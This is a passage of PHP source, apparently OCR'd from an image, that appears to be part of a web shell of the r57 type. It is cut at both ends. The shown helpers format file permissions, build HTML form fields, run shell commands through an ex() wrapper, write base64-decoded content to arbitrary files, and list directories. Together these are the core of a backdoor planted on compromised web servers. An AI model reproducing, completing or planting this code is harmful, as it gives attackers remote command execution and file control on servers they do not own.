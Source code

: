 else if( $mode & 0xC000 ) { $type='s'; }
else $type='u';
$owner["read"] = ($mode & 00400) ? 'r' : '-';
$owner["write"] = ($mode & 00200) ? 'w' : '-';
$owner["execute"] = ($mode & 00100) ? 'x' : '-';
$group["read"] = ($mode & 00040) ? 'r' : '-';
$group["write"] = ($mode & 00020) ? 'w' : '-';
$group["execute"] = ($mode & 00010) ? 'x' : '-';
$world["read"] = ($mode & 00004) ? 'r' : '-';
$world["write"] = ($mode & 00002) ? 'w' : '-';
$world["execute"] = ($mode & 00001) ? 'x' : '-';
if( $mode & 0x800 ) $owner["execute"] = ($owner['execute']=='x') ? 's' : 'S';
if( $mode & 0x400 ) $group["execute"] = ($group['execute']=='x') ? 's' : 'S';
if( $mode & 0x200 ) $world["execute"] = ($world['execute']=='x') ? 't' : 'T';
$s=sprintf("%1s", $type);
$s.=sprintf("%1s%1s%1s", $owner['read'], $owner['write'], $owner['execute']);
$s.=sprintf("%1s%1s%1s", $group['read'], $group['write'], $group['execute']);
$s.=sprintf("%1s%1s%1s", $world['read'], $world['write'], $world['execute']);
return trim($s);
}
function in($type,$name,$size,$value)
{
 $ret = "&lt;input type=".$type." name=".$name." ";
 if($size != 0) { $ret .= "size=".$size." "; }
 $ret .= "value=\"".$value."\"&gt;";
 return $ret;
}
function which($pr)
{
$path = ex("which $pr");
if(!empty($path)) { return $path; } else { return $pr; }
}
function cf($fname,$text)
{
 $w_file=@fopen($fname,"w") or we($fname);
 if($w_file)
 {
 @fputs($w_file,@base64_decode($text));
 @fclose($w_file);
 }
}
function sr($l,$t1,$t2)
 {
 return "&lt;tr class=tr1&gt;&lt;td class=td1 width=".$l."% align=right&gt;".$t1."&lt;/td&gt;&lt;td class=td1 align=left&gt;".$t2."&lt;/td&gt;&lt;/tr&gt;";
 }
if (!@function_exists("view_size"))
{
function view_size($size)
{
 if($size &gt;= 1073741824) {$size = @round($size / 1073741824 * 100) / 100 . " GB";}
 elseif($size &gt;= 1048576) {$size = @round($size / 1048576 * 100) / 100 . " MB";}
 elseif($size &gt;= 1024) {$size = @round($size / 1024 * 100) / 100 . " KB";}
 else {$size = $size . " B";}
 return $size;
}
}
  function DirFilesR($dir,$types='')
  {
    $files = Array();
    if(($handle = @opendir($dir)))
    {
      while (false !== ($file = @readdir($handle)))
      {
